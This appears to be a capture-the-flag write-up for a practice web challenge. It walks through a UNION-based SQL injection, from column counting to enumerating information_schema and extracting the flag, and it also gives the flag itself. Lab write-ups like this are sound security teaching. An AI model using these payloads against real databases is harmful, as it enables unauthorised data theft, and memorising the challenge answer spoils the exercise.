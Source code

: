 == Inj3ction Time
:ch_category: Web
:ch_flag: abctf{uni0n_1s_4_gr34t_c0mm4nd}

=== Input

> I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command

=== Resolution

// Most of the following is based on https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/

1. Check that the field is vulnerable by setting the input to `1 OR 1=1` (shows multiple results)
2. Determine how many colums are being selected by setting `1 GROUP BY 1` and increasing the value until an error occurs (breaks at 5 here => 4 columns in the select)
3. Identify which columns are being displayed `1 UNION SELECT 1,2,3,4` (here 1, 2, and 3, the 4th column is not returned)
4. Extract the list of tables in the database through one of the displayed fields: `1 UNION SELECT (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),2,3,4` (show the tables `w0w_y0u_f0und_m3` and `webeight`)
5. Extract the list of columns in the `w0w_y0u_f0und_m3` table: `1 UNION SELECT (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=database()),2,3,4` (shows the column `f0und_m3` among others) (adding ` AND table_name='w0w_y0u_f0und_m3'` fails for... reasons ?)
6. Extract the flag with `1 UNION SELECT (SELECT group_concat(f0und_m3) FROM w0w_y0u_f0und_m3),2,3,4`

=== Solution

`{ch_flag}`
